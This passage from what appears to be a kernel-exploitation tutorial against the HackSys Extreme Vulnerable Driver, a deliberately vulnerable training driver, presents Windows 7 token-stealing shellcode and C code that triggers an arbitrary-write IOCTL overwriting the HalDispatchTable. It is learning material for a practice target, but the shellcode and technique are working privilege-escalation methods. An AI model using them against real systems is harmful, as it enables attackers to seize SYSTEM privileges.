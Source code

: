 //shellcode from the stackoverflow exploit minus the stack clean up since it is uneeded.
VOID TokenStealingShellcodeWin7() {
	__asm {
		; initialize
			pushad; save registers state

			xor eax, eax; Set zero
			mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
			mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

			mov ecx, eax; Copy current _EPROCESS structure

			mov ebx, [eax + TOKEN_OFFSET]; Copy current nt!_EPROCESS.Token
			mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM Process PID = 0x4

		SearchSystemPID:
		mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

			mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + TOKEN_OFFSET], edx; Copy nt!_EPROCESS.Token of SYSTEM
			; to current process
			popad; restore registers state
	}
}
</pre>

Now that we have both the items we need to pass to the IOCTL, we define a simple structure to use.

<pre>
typedef struct FAKE_OBJ {
	ULONG what;
	ULONG where;
} FAKE_OBJ, *PFAKE_OBJ;
</pre>

We then allocate memory for our fake object and then set the first field to point to our shellcode and the second field to point to the second entry of the HalDispatchTable before passing it to the driver using the DeviceIoControl function.

<pre>
PFAKE_OBJ payload = (PFAKE_OBJ)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(FAKE_OBJ));
if (payload == NULL){
	printf("fuck\n");
	return 1;
}
payload->what = (ULONG)&pShellcode;
payload->where = (ULONG)((ULONG)dispatch +sizeof(PVOID));
printf("Shellcode: 0x%X\n", payload->what);
printf("write address: 0x%X\n", payload->where);
DeviceIoControl(hDriver,
	HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE,
	(LPVOID) payload,
	sizeof(FAKE_OBJ),
	NULL, //No output buffer - we don't even know if the driver gives output #yolo.
	0,
	&lpBytesReturned,
	NULL
);
</pre>
